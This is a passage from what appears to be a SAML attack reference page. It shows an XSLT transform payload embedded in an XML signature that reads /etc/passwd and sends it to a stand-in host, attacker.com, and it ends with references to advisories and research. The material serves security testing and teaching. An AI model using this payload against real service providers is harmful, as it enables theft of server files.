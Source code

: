 The SAML response is accepted by the service provider. Due to the vulnerability, the service provider application reports "taf" as the value of the "uid" attribute.


### Extensible Stylesheet Language Transformation

An XSLT can be carried out by using the `transform` element.

![http://sso-attacks.org/images/4/49/XSLT1.jpg](http://sso-attacks.org/images/4/49/XSLT1.jpg)
Picture from [http://sso-attacks.org/XSLT_Attack](http://sso-attacks.org/XSLT_Attack)    

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl"select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```

## References

- [SAML Burp Extension - ROLAND BISCHOFBERGER - JULY 24, 2015](https://blog.compass-security.com/2015/07/saml-burp-extension/)
- [The road to your codebase is paved with forged assertions - @ilektrojohn - March 13, 2017](http://www.economyofmechanism.com/github-saml)
- [SAML_Security_Cheat_Sheet.md - OWASP](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SAML_Security_Cheat_Sheet.md)
- [On Breaking SAML: Be Whoever You Want to Be - Juraj Somorovsky, Andreas Mayer, Jorg Schwenk, Marco Kampmann, and Meiko Jensen](https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91-8-23-12.pdf)
- [Making Headlines: SAML - March 19, 2018 - Torsten George](https://blog.centrify.com/saml/)
- [Vulnerability Note VU#475445 - 2018-02-27 - Carnegie Mellon University](https://www.kb.cert.org/vuls/id/475445/)
- [ORACLE WEBLOGIC - MULTIPLE SAML VULNERABILITIES (CVE-2018-2998/CVE-2018-2933) - Denis Andzakovic - Jul 18, 2018](https://pulsesecurity.co.nz/advisories/WebLogic-SAML-Vulnerabilities)
- [Truncation of SAML Attributes in Shibboleth 2 - 2018-01-15 - redteam-pentesting.de](https://www.redteam-pentesting.de/de/advisories/rt-sa-2017-013/-truncation-of-saml-attributes-in-shibboleth-2)
- [Attacking SSO: Common SAML Vulnerabilities and Ways to Find Them - March 7th, 2017 - Jem Jensen](https://blog.netspi.com/attacking-sso-common-saml-vulnerabilities-ways-find/)
- [How to Hunt Bugs in SAML; a Methodology - Part I - @epi052](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)
- [How to Hunt Bugs in SAML; a Methodology - Part II - @epi052](https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/)
- [How to Hunt Bugs in SAML; a Methodology - Part III - @epi052](https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/)